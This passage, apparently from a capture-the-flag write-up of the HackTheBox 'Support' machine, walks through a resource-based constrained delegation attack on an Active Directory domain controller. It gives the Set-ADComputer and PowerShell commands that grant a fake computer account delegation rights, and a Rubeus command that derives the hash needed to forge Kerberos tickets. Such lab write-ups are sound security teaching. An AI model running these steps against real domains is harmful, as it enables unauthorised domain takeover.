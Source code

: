 
#### 2. Modify the `msds-allowedtoactonbehalfofotheridentity` value on the target: {#2-dot-modify-the-msds-allowedtoactonbehalfofotheridentity-value-on-the-target}

1.  **Configure RBCD Using Sharpview**
    1.  <span class="underline">Verity the `PrincipalAllowedToDelegateToAccount` value is empty</span>:
        -   `Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount`
        -   {{< figure src="/ox-hugo/2024-09-06-103305_.png" >}}

    2.  <span class="underline">Add our computer as to the `PrincipalAllowedToDelegateToAccount` value</span>:
        -   `Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount bloodstiller$`
        -   +Note+: be patient, this can hang for a number of seconds!

    3.  <span class="underline">Verify the attribute is set</span>:
        -   `Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount`
        -   It should now contain our fake computer name
        -   {{< figure src="/ox-hugo/2024-09-06-103346_.png" >}}

2.  **Verify the** `msds-allowedtoactonbehalfofotheridentity` **value has changed**:
    -   `Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity`
    -   {{< figure src="/ox-hugo/2024-09-06-111105_.png" >}}
    -   We can see it has but it's just a series of numbers? It's RAW bytes which we need to convert back to the SID to verify it works.
        ```powershell
        $TargetComputer = "DC.support.htb"
        $RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
        $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
        $Descriptor.DiscretionaryAcl
        ```
    -   {{< figure src="/ox-hugo/2024-09-06-114904_.png" >}}
        -   As we can see the `AceType` is set to `AcessAllowed`
            -   **AceType**: Represents the type of Access Control Entry (ACE) in the Access Control List (ACL).
                -   In this case, the value is `AccessAllowed`, meaning it grants permission to the associated `SecurityIdentifier`.(SID).
            -   And it has the SID from the fake machine we made earlier so therefore it means that the ACE is set to allow our machine to act on behalf of the domain controller `DC.SUPPORT.HTB`
                -   {{< figure src="/ox-hugo/2024-09-06-114728_.png" >}}

    -   **Minor recap**:
        -   We have created a fake machine on the domain.
        -   We have configured our machine to act on behalf of `DC.SUPPORT.HTB`


#### 3. Craft Kerberos Ticket with Rubeus for local admin on DC01: {#3-dot-craft-kerberos-ticket-with-rubeus-for-local-admin-on-dc01}

1.  **Retrieve the password hash that was used to create the computer object**:
    -   `.\Rubeus.exe hash /password:hackme /user:bloodstiller$ /domain:support.htb`
        -   **Breakdown**:
            -   `hash`: Instructs Rubeus to extract a hash.
            -   `/password:hackme`: Specifies the password for the user (hackme).
            -   `/user:bloodstiller$`: Specifies the username of the account we want the password for (bloodstiller$).
                -   +Note+: we have the `$` as this is a machine account
            -   `/domain:support.htb`: Specifies the domain (support.htb).
    -   {{< figure src="/ox-hugo/2024-09-06-131233_.png" >}}
    -   We need this so we can craft tickets.
        -   Hash = `601EAB3FDFB146C4ECD8F800C987D621`
